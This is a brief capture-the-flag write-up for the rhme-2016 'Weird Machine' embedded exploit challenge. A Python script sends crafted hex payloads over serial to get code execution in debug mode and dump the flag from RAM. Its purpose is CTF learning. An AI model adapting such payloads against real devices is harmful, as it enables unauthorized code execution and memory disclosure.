 # rhme-2016 write-up Weird Machine

<a name="weird"></a>
## Weird Machine (Exploit - 400 pts)
This challenge is the continuation of hide&seek, but harder (normally).<br>
The behavior is exactly like hide&seek, you're beginning with the loader and you
can enter in debug mode by sending a wrong command.<br>
Before looking elsewhere, we tried the last exploit (h&s) and it didn't work..<br>
But it seems that the code execution still worked and the flag is still @ 0x700
in RAM..We must fuzz this !<br>
And .....nyan..... Kaboooom !!<br>
if you replace 0x1000 by 0x710, you got the flag :)

```python
from rhme_serial import *

s = rhme_serial()
s.xfer("ee\n")
s.xfer("\n")
s.xfer("l\n")
s.xfer("04600000"+"00"*(0x16a-6)+"1200\n")
s.xfer("e\n")
s.xfer("\n")
s.xfer("l\n")
s.xfer("1e1007\n")
s.xfer("e\n")
s.xfer("\n")
s.xfer("l\n")
s.xfer("00000c02fb0c03f40704280805720806540d07a10d08c4080901090a44090b810900be090dfb090e2b0a0f6a0a10a90a11020b12ee0d135107141807153607165b0b17a40b18c10019de0b1afb0b1b180c1c500c1d770c1e950c00414243c4c5464748494a4b4c4d52139455569798595a5b5c1f4e4f50511d1e00000007\n")
print s.xfer("d\n")
s.close()
```
